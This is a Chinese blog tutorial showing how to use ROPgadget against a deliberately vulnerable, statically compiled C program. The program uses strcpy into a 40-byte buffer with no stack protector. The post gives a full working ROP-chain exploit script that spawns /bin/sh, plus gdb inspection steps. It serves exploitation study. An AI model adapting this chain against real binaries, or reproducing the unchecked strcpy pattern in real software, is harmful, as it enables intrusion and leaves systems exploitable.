 title: 使用ROPgadget构建gadgets链，实现ROP攻击
date: 2015-06-12 15:34:53
tags:  
- 缓冲区溢出
- ROP
---
上篇博客简单介绍了ROPgadget，现在我们就来小试牛刀
<!-- more -->
#C程序
```
#include <string.h>
#include <stdio.h>

void function(char *a){
        char buff[40];
        strcpy(buff,a);
}
 
int main(int argc, char** argv){
    if(argc>=2)
        function(argv[1]);
}
```
编译C程序
```
gcc hello.c -o hello -static -g -fno-stack-protector
```
#使用ROPgadget构建gadget链
ROPgadget的安装[上篇博客](http://huirong.github.io/2015/06/12/ROPgadget/)已经介绍了,这里不赘述。
```
ropgadget --binary hello --ropchain
```
创建输入文件exploit.py
```
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = ''
p += 'a'*52

p += pack('<I', 0x080570ca) # pop edx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x0808d211) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x0808e28d) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080570ca) # pop edx ; ret
p += pack('<I', 0x080ee064) # @ .data + 4
p += pack('<I', 0x0808d211) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x0808e28d) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080570ca) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x080514e0) # xor eax, eax ; ret
p += pack('<I', 0x0808e28d) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481ec) # pop ebx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x080997d3) # pop ecx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x080570ca) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x080514e0) # xor eax, eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x080493b9) # int 0x80
print p
```
<font color="red">注意：要在gadget之前添加 p += 'a'*52</font>
原因：使函数的返回地址指向第一个gadget
#使用gdb分析内存
```
gdbtui hello
```
###1、添加断点，设置参数
根据自己喜欢在程序某个地方设置断点，我一般设置在主函数处
运行时参数为 ./exploit.py 的运行结果
![](http://ww3.sinaimg.cn/large/005CA6ZCjw1et1d063ftej30px0fq0yj.jpg)
###2、查看寄存器
当运行完strcpy()函数后，查看寄存器情况，主要留意esp  ebp的值
![](http://ww3.sinaimg.cn/large/005CA6ZCjw1et1d0cngncj30n80fp43t.jpg)
###3、查看内存情况
ebp为0xbffff288，则返回地址在0xbffff28c处，可以发现此时返回地址是第一个gadget的起始地址处
<font color="red">p += 'a'*52 是为了覆盖缓冲区，直到返回地址处</font>
![](http://ww1.sinaimg.cn/large/005CA6ZCjw1et1d0lh38xj30nr05rads.jpg)
#运行结果
```
./hello "$(./exploit.py)"
```
![](http://ww2.sinaimg.cn/large/005CA6ZCjw1et1d0ryguaj30fe016t8q.jpg)
#参考文献
[use ROPgadget to chain gadgets](https://hwchen18546.wordpress.com/2014/07/15/rop-use-ropgadget-to-chain-gadgets/)

